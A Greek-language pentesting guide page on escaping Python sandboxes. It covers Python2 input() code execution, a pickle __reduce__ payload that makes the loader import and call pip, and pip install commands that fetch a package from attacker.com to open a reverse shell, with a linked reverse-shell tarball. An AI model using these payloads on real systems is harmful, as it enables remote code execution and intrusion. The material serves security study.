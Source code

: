 {% hint style="danger" %}
Η συνάρτηση **input()** της Python2 επιτρέπει την εκτέλεση κώδικα python πριν το πρόγραμμα καταρρεύσει.
{% endhint %}

Η Python προσπαθεί να **φορτώσει βιβλιοθήκες από τον τρέχοντα φάκελο πρώτα** (η παρακάτω εντολή θα εκτυπώσει από πού φορτώνει η python τα modules): `python3 -c 'import sys; print(sys.path)'`

![](<../../../.gitbook/assets/image (559).png>)

## Παράκαμψη της sandbox του pickle με τα προεγκατεστημένα πακέτα python

### Προεγκατεστημένα πακέτα

Μπορείτε να βρείτε μια **λίστα με τα προεγκατεστημένα** πακέτα εδώ: [https://docs.qubole.com/en/latest/user-guide/package-management/pkgmgmt-preinstalled-packages.html](https://docs.qubole.com/en/latest/user-guide/package-management/pkgmgmt-preinstalled-packages.html)\
Σημειώστε ότι από ένα pickle μπορείτε να κάνετε το περιβάλλον python να **εισάγει αυθαίρετες βιβλιοθήκες** που είναι εγκατεστημένες στο σύστημα.\
Για παράδειγμα, το παρακάτω pickle, όταν φορτωθεί, θα εισάγει τη βιβλιοθήκη pip για να τη χρησιμοποιήσει:
```python
#Note that here we are importing the pip library so the pickle is created correctly
#however, the victim doesn't even need to have the library installed to execute it
#the library is going to be loaded automatically

import pickle, os, base64, pip
class P(object):
def __reduce__(self):
return (pip.main,(["list"],))

print(base64.b64encode(pickle.dumps(P(), protocol=0)))
```
Για περισσότερες πληροφορίες σχετικά με το πώς λειτουργεί το pickle, ελέγξτε αυτό: [https://checkoway.net/musings/pickle/](https://checkoway.net/musings/pickle/)

### Πακέτο Pip

Τέχνασμα που μοιράστηκε ο **@isHaacK**

Αν έχετε πρόσβαση στο `pip` ή `pip.main()`, μπορείτε να εγκαταστήσετε ένα αυθαίρετο πακέτο και να αποκτήσετε ένα reverse shell καλώντας:
```bash
pip install http://attacker.com/Rerverse.tar.gz
pip.main(["install", "http://attacker.com/Rerverse.tar.gz"])
```
Μπορείτε να κατεβάσετε το πακέτο για να δημιουργήσετε το reverse shell εδώ. Παρακαλώ, σημειώστε ότι πριν το χρησιμοποιήσετε θα πρέπει να **αποσυμπιέσετε, να αλλάξετε το `setup.py` και να βάλετε τη διεύθυνση IP σας για το reverse shell**:

{% file src="../../../.gitbook/assets/Reverse.tar (1).gz" %}
